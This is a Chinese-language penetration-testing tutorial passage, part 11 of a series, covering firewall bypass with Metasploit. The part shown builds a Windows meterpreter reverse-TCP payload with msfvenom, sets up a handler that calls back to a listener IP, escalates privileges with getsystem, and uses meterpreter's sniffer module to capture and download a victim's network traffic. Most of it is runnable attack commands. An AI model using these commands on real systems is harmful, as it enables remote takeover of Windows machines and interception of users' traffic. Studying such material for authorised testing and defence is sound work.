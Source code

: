 # 渗透测试基础11

# 系统防火墙原理以及突破（利用msf：对数据包进行嗅探、host注入-伪造域名、用户认证的钓鱼窗口、passTheHash获得操作系统用户密码hash值、使用猕猴桃获得用户密码、对防火墙相关操作、3389端口远程连接、植入后门、powershell的作用、粘滞键漏洞）



## 数据和嗅探：

目标电脑上msf运行木马后

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4444 -f exe -o msf.exe

use exploit/muti/handler

set payload windows/x64/meterpreter/reverse_tcp

show options

set lhost 192.168.1.120

exploit
```

提权

```
getuid
getsystem
getuid
```





### 对数据包的操作

进入session

```
load sniffer    # 加载嗅探模块

sniffer_interfaces     # 查看电脑网卡

sniffer_start 2      # 对2号网卡进行嗅探操作，监听

sniffer_dump 2 2.cap    # 把2号网卡的数据包下载下来保存为/root/2.cap

wireshark 2.cap    # 使用wireshark查看抓到的包

sniffer_stop 2    # 停止对2号网卡的嗅探
```
